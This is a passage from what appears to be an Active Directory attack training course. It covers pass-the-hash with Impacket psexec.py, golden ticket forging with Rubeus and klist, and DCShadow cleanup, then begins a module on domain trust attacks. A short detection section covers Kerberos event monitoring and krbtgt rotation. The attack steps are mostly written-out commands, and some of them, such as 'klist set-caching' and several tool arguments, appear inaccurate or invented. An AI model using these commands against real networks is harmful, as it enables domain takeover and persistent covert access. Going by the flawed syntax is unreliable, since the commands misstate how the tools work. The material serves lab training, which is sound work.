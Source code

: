     -   **Tool Example:** `pth-winexe`, `Impacket psexec.py`
        
        ```bash
        psexec.py -hashes :aad3b435b51404eeaad3b435b51404ee:1122334455... LAB\Administrator@dc1.lab.local cmd.exe
        
        ```
        
    -   **Use Case:** Access file shares or execute commands as a high-privilege account using its hash.
        
2.  **Golden Ticket Forging**
    
    -   **What it is:** Create a forged Ticket Granting Ticket (TGT) using the `krbtgt` account hash, granting unlimited domain access.
        
    -   **Tool Example:** Rubeus or Impacket’s `ticketer.py`
        
        ```powershell
        Rubeus.exe golden /domain:lab.local /sid:S-1-5-21-... /krbtgt:5566778899... /user:krbtgt /aes256:... /ticket:golden.ticket
        klist -li 0x3e7
        klist set-caching golden.ticket
        
        ```
        
    -   **Use Case:** Maintain persistent, stealthy Domain Admin access; bypasses password changes of the krbtgt account until ticket expiry.
        
3.  **Cleanup**
    
    -   **Remove DCShadow Objects:**
        
        ```powershell
        Invoke-DCShadow -Target dc1.lab.local -RemoveReplicaLink
        
        ```
        
    -   **Revert ACL Changes:** Remove the ACE you added for replication rights.
        
4.  **Detection & Recovery**
    
    -   Monitor for unusual Kerberos TGT requests (Event ID 4768) with high lifetimes.
        
    -   Rotate `krbtgt` account password twice, 24 hours apart, to invalidate forged tickets.
        

----------

## <a name="module-13"></a> Module 13: Domain Trust & Forest Attacks

_Move laterally across trust boundaries by abusing domain trust relationships._

### Key Concepts

-   **Domain Trust**  
    A link between two AD domains that allows users in one domain to access resources in another. Trusts can be one-way or two-way, external or forest.
    